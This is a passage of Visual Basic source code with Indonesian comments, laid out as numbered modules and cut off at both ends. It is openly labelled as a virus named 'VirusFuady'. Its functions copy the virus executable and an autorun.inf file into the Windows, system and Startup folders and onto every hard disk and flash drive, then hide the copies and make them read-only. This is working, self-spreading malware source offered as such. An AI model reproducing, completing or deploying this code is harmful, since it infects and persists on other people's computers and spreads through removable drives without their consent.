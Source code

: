 Public Function GetSystemPath() As String  
On Error Resume Next  
Dim Buffer As String \* 255, Ned1 As Long  
Ned1 = GetSystemDirectory(Buffer, 255)  
GetSystemPath = Left(Buffer, Ned1) & "\\"  
End Function

**Modul 13**: 

Public Function GetWindowsPath() As String  
On Error Resume Next  
Dim Buffer As String \* 255, Ned1 As Long  
Ned1 = GetWindowsDirectory(Buffer, 255)  
GetWindowsPath = Left(Buffer, Ned1) & "\\"  
End Function

**Modul 14**: 

Public Function InfeksiFolderSistem() As String  
On Error Resume Next  
'-- menggandakan file virus  
CopyFile GetFileSumber, GetWindowsPath & "VirusFuady.exe", 0  
CopyFile GetFileSumber, GetSystemPath & "VirusFuady.exe", 0  
CopyFile GetFileSumber, GetSpecialfolder(CSIDL\_STARTUP) & \_  
"VirusFuady.exe", 0  
'-- menggandakan file autorun  
CopyFile App.Path & "\\" & "autorun.inf", GetWindowsPath & "autorun.inf", 0  
CopyFile App.Path & "\\" & "autorun.inf", GetSystemPath & "autorun.inf", 0  
CopyFile App.Path & "\\" & "autorun.inf", GetSpecialfolder(CSIDL\_STARTUP) & \_  
"autorun.inf", 0  
End Function

**Modul 15**: 

Public Function InfeksiDriveRemovable() As String  
Dim DriveAscii As Integer, DriveHuruf As String  
DriveHuruf = ""  
For DriveAscii = 66 To 90  
DriveHuruf = Chr(DriveAscii) & ":\\"  
If GetDriveType(DriveHuruf) = 3 Or GetDriveType(DriveHuruf) = 2 Then  
'-- Type drive 3 = Hardisk, 2 = Flash Disk  
'-- menggandakan file virus  
CopyFile GetFileSumber, DriveHuruf & "VirusFuady.exe", 0  
'-- menggandakan file autorun  
CopyFile App.Path & "\\" & "autorun.inf", DriveHuruf & "autorun.inf", 0  
End If  
Next  
End Function

**Modul 16**: 

Public Function AturAtributFile() As String  
Dim DriveAscii As Integer, DriveHuruf As String  
DriveHuruf = ""  
For DriveAscii = 66 To 90  
DriveHuruf = Chr(DriveAscii) & ":\\"  
If GetDriveType(DriveHuruf) = 3 Or GetDriveType(DriveHuruf) = 2 Then  
'Type drive 3 = Hardisk, 2 = Flash Disk  
SetFileAttributes DriveHuruf & "VirusFuady.exe", \_  
FILE\_ATTRIBUTE\_HIDDEN Or FILE\_ATTRIBUTE\_READONLY  
End If  
Next  
SetFileAttributes GetWindowsPath & "VirusFuady.exe", \_  
FILE\_ATTRIBUTE\_HIDDEN Or FILE\_ATTRIBUTE\_READONLY  
SetFileAttributes GetSystemPath & "VirusFuady.exe", \_  
FILE\_ATTRIBUTE\_HIDDEN Or FILE\_ATTRIBUTE\_READONLY  
SetFileAttributes GetSpecialfolder(CSIDL\_STARTUP) & \_  